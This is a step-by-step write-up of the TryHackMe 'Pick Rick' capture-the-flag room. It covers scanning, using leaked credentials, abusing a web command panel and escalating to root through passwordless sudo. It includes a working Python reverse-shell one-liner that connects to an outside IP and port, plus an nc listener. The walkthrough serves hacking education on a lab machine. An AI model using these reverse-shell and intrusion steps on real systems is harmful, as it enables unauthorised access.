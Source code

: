 This is a detailed walkthrough of tryhackme CTF title Pick Rick: This Rick and Morty-themed CTF revolves around exploiting a vulnerable web server to find three ingredients to transform Rick from a pickle back to human state.

## Scanning

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals two open ports:

![nmap_result](https://github.com/user-attachments/assets/9cffca0f-cd9d-44e0-99eb-7bd522615f25)

# Enumeration

### **Analysis Port 80/TCP**

Let's check out the websever on port 80/TCP.

I checked the source code and revealed a username in the html comments:

![pagesource](https://github.com/user-attachments/assets/23742b21-e765-47e8-8788-cc3d68224727)


Now let's run a directory scan on the target using gobuster:

```bash
gobuster dir -u $ip -w=/usr/share/wordlists/dirb/common.txt -x txt,php,html -o buster.txt
```
Command break down:

dir: Specifies that we want to perform directory brute-forcing.

-u $ip: The -u flag followed by the target IP address or hostname indicates the URL to scan.

-w=/usr/share/wordlists/dirb/common.txt: This option specifies the wordlist to use for directory brute-forcing. In this case, it uses the common wordlist located at /usr/share/wordlists/dirb/common.txt.

-x txt,php,html: The -x flag specifies file extensions to search for. Here, we’re looking for files with extensions .txt, .php, and .html.

-o buster.txt: The -o flag specifies the output file where the results will be saved. In this case, it saves the output to a file named “buster.txt.”

We found two interesting directories:

![buster](https://github.com/user-attachments/assets/005f3530-538e-4fb7-a809-9c0379e1e99b)

```bash
/login.php
/robots.txt
```

Robots.txt can often reveal vulnerabilities in a web server, or inadvertently leaked information. 
Let's also run a nikto scan on the target IP:

```bash
nikto -h $ip | tee nikto.txt
```
Command break down:
-h $ip: The -h option specifies the target host

| tee nikto.txt: The tee command allows you to save the output to a file (nikto.txt) 

![nikto](https://github.com/user-attachments/assets/2be2bf43-af1f-4a72-929a-76fdcbce784f)

This again reveals the /login.php directory among other information.

Browsing to /login.php , we are redirected to a log in page :

![login](https://github.com/user-attachments/assets/8ffd221c-cca9-4f8e-bee7-36c19203e518)

Navigating to robots.txt reveals a strange word that looks like it might be a login password.

Let's try logging in with the username we found earlier from the sourcecode and the potential password from robots.txt.

# Gaining privileges

Success! We are now logged in!

We are presented with a command panel. 

Running the command id reveals that we are www-data:

```bash
id
```
![id](https://github.com/user-attachments/assets/3366d92d-5891-44e8-8dce-2f462c7998d9)

Now, let's run ls -la to see what files are available: 

```bash
ls -la
```
![ls -la](https://github.com/user-attachments/assets/ec5f253e-5e29-4132-afb8-42615a23012e)

Let's run the cat command on clue.txt:

![cat](https://github.com/user-attachments/assets/5a99da24-b9ab-430f-8347-eaf843b8b82e)

The cat command is disabled. Let's try some other commands with similiar functionality to cat, like less. 
less works and the contents display: Look around the file system for the other ingredient.
Ok, let's run less on Sup3rS3cretPickl3Ingred.txt.
And this returns our first secret ingredient!

# Expolitation

Let's try to get more access to this web server with a reverse shell. 
As a test, let's run a simple python command:

```bash
python3 -c 'print("test")'
```
The command works and displayed test. This let's us know that we can run python3 commands. So, let's try running a reverse shell in python3. 
I often like to use the site "https://www.revshells.com/" because it has a large colletion of reverse shell, with a simple interface to input 
your IP and desired port number, as well as showing the nc listener.

Scroll down on through the list of reverse shells on the bottom left until you get to Python3 shortest. In our situation with the command panel,
I find that shorter shells tend to have a high success rate.

Shell for input on command panel:

```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.24.123",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

nc listener for output on our terminal:
```bash
nc -lvnp 4444
```

Alright! We have a reverse shell as www-data! Let's run the command env to get a summary of environmental varialbles:

![env](https://github.com/user-attachments/assets/fc127f2a-363d-4178-9f22-c83e649baa39)

Ok, the first thing I like to do is run a few commands to upgrade our shell's functionality and stability:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
ctrl -z
stty raw -echo; fg
stty rows 38 columns 116
```

Now that we have upgraded the shell, let's check for privileges of www-data:

Command:
```bash
sudo -l
```
![sudo -l](https://github.com/user-attachments/assets/19ce7691-b99e-4672-b0db-c1f42841d650)

This is great news as it indicates we can execute any command with no password!
Let's explore the file system and get the other flags. First, let's check the home directory:
Command:
```bash
ls /home
```
We see two directories in home: rick and ubuntu. Now, we'll navigate to /home/rick.
Command:
```bash
cd /home/rick
ls -lah
```

Great! Let's use less to see the contents of the 2nd ingredient, don't forget to use '' due to the space.


![2nd](https://github.com/user-attachments/assets/da82fe39-0967-4c92-a433-042f5c4d7539)

We now have the second ingredient! 
Let's check the root directory for the 3rd one. A couple things to note. We will need to use the sudo command with no pasword to display the 3rd flag. I also noticed that we actually can use the cat command in our shell.
```bash
sudo ls /root
sudo cat /root/3rd.txt
```

And we now have the 3rd flag! I hope you enjoyed this CTF and it was a good learning experience. Remember that there are different approaches that you can take in the room to get the same results, so try some different approaches and techniques. 

